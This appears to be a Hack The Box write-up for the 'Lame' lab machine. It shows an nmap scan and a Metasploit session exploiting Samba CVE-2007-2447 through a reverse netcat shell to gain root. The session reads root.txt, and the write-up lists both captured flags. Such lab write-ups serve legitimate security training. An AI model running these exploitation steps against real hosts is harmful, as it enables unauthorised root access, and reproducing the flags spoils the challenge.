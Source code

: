 ```yaml
---
title: "HTB: LAME"
author: "v3l1d"
date: "2024-08-04"
---  
```

![](attachment/43ebccb6774d75bacfaa80b40cc8e5ce.png)

### Port Scan

```
Nmap 7.94SVN scan initiated Sat Aug 10 08:35:19 2024 as: nmap -sC -sV -A -T4 -Pn -o scan 10.10.10.3
Nmap scan report for 10.10.10.3
Host is up (0.15s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.10.14.185
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey:
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
 ```

Anonymous connection FTP but nothing there

### CVE-2007-2447

Looking online i found this vulnerability for this version of smb


```text
┌──(kali㉿kali)-[~/HTB/Lame]
└─$ msfconsole                                                                      
Metasploit tip: Use the resource command to run commands from a file
                                                  
     ,           ,
    /             \                                                                                                                 
   ((__---,,,---__))                                                                                                                
      (_) O O (_)_________                                                                                                          
         \ _ /            |\                                                                                                        
          o_o \   M S F   | \                                                                                                       
               \   _____  |  *                                                                                                      
                |||   WW|||                                                                                                         
                |||     |||                                                                                                         
                                                                                                                                    

       =[ metasploit v6.4.18-dev                          ]
+ -- --=[ 2420 exploits - 1248 auxiliary - 423 post       ]
+ -- --=[ 1465 payloads - 47 encoders - 11 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

msf6 > search smb 3.0.20
[-] No results from search
msf6 > smb 3.0.20
[-] Unknown command: smb. Run the help command for more details.                                                                                                 
msf6 > search samba 3.0                                                                                                                                          
                                                                                                                                                                 
Matching Modules                                                                                                                                                 
================                                                                                                                                                 
                                                                                                                                                                 
   #   Name                                                   Disclosure Date  Rank       Check  Description                                                     
   -   ----                                                   ---------------  ----       -----  -----------
   0   exploit/multi/samba/usermap_script                     2007-05-14       excellent  No     Samba "username map script" Command Execution
   1   exploit/linux/samba/chain_reply                        2010-06-16       good       No     Samba chain_reply Memory Corruption (Linux x86)
   2     \_ target: Linux (Debian5 3.2.5-4lenny6)             .                .          .      .
   3     \_ target: Debugging Target                          .                .          .      .
   4   exploit/linux/samba/lsa_transnames_heap                2007-05-14       good       Yes    Samba lsa_io_trans_names Heap Overflow
   5     \_ target: Linux vsyscall                            .                .          .      .
   6     \_ target: Linux Heap Brute Force (Debian/Ubuntu)    .                .          .      .
   7     \_ target: Linux Heap Brute Force (Gentoo)           .                .          .      .
   8     \_ target: Linux Heap Brute Force (Mandriva)         .                .          .      .
   9     \_ target: Linux Heap Brute Force (RHEL/CentOS)      .                .          .      .
   10    \_ target: Linux Heap Brute Force (SUSE)             .                .          .      .
   11    \_ target: Linux Heap Brute Force (Slackware)        .                .          .      .
   12    \_ target: Linux Heap Brute Force (OpenWRT MIPS)     .                .          .      .
   13    \_ target: DEBUG                                     .                .          .      .
   14  exploit/osx/samba/lsa_transnames_heap                  2007-05-14       average    No     Samba lsa_io_trans_names Heap Overflow
   15    \_ target: Automatic                                 .                .          .      .
   16    \_ target: Mac OS X 10.4.x x86 Samba 3.0.10          .                .          .      .
   17    \_ target: Mac OS X 10.4.x PPC Samba 3.0.10          .                .          .      .
   18    \_ target: DEBUG                                     .                .          .      .
   19  exploit/solaris/samba/lsa_transnames_heap              2007-05-14       average    No     Samba lsa_io_trans_names Heap Overflow
   20    \_ target: Solaris 8/9/10 x86 Samba 3.0.21-3.0.24    .                .          .      .
   21    \_ target: Solaris 8/9/10 SPARC Samba 3.0.21-3.0.24  .                .          .      .
   22    \_ target: DEBUG                                     .                .          .      .


Interact with a module by name or index. For example info 22, use 22 or use exploit/solaris/samba/lsa_transnames_heap
After interacting with a module you can manually set a TARGET with set TARGET 'DEBUG'

msf6 > use exploit/multi/samba/usermap_script 
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf6 exploit(multi/samba/usermap_script) > show options

Module options (exploit/multi/samba/usermap_script):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client address
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    139              yes       The target port (TCP)


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.163.129  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(multi/samba/usermap_script) > set LHOST 10.10.14.185
LHOST => 10.10.14.185
msf6 exploit(multi/samba/usermap_script) > set LPORT 9091
LPORT => 9091
msf6 exploit(multi/samba/usermap_script) > exploit

[-] Msf::OptionValidateError One or more options failed to validate: RHOSTS.
msf6 exploit(multi/samba/usermap_script) > set RHOST 10.10.10.3
RHOST => 10.10.10.3
msf6 exploit(multi/samba/usermap_script) > set RPORT 139
RPORT => 139
msf6 exploit(multi/samba/usermap_script) > exploit

[*] Started reverse TCP handler on 10.10.14.185:9091 
[*] Command shell session 1 opened (10.10.14.185:9091 -> 10.10.10.3:47888) at 2024-08-10 09:35:50 -0400

whoami
root
ls
bin
boot
cdrom
dev
etc
home
initrd
initrd.img
initrd.img.old
lib
lost+found
media
mnt
nohup.out
opt
proc
root
sbin
srv
sys
tmp
usr
var
vmlinuz
vmlinuz.old
cd /root
ls
Desktop
reset_logs.sh
root.txt
vnc.log
cat root.txt
6118f8816315bd33ecac622d179c65af
```


![](attachment/95e2ca9714b079079c673225e5a17f15.png)![](attachment/e0218db999901f943bf934f889d0edec.png)

### Flags

```

root:6118f8816315bd33ecac622d179c65af
user:15fd56e82fdefb166bfb1631b6c6360a

```